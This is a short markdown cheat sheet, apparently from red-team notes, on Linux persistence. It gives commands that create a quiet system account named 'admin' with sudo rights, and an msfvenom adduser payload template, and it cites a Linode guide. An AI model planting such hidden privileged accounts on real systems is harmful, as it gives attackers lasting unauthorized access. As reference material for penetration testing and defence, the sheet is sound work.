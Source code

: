 # Living off the Land

## 01 - Create user account

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/adduser user=<username> pass=<password> rootmethod=<SUID | SUDO | NONE> [checksudoers=<true | false>]
```

---
## References

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)